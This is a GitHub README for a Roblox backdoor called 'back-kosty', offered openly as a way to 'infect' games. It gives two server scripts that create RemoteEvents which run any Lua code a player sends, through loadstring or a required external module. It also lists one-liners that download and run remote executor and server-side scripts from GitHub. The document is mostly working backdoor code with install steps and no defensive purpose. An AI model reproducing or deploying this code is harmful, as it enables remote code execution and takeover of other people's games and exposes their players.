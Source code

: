 # back-kosty
repository of my backdoor for test also this so epic :D
# how to install?
create in serverscriptservice the 2 scripts
# stape number 1
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "back-kosty"
backdoor.OnServerEvent:connect(function(player, SS)
	loadstring(SS)()
end)

# stape 2

local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "polaria"

backdoor.OnServerEvent:Connect(function(player, SS)
	local module = require(123255432303221)
	if type(SS) == "string" then
		module:Pload(SS)
	else
		warn("polaria failed")
	end
end)

# after that your game will be infected by back-kosty
# not loadstring (SERVERSIDE)
https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/scanner.lua
# loadstring 2 (LOCAL)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/executor/executorandhub.lua", true))()
# loadstring 3 (SERVERSIDE IN F3X)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/server-side/project%20360%20ONLY%20F3X%20GAMES.lua", true)()
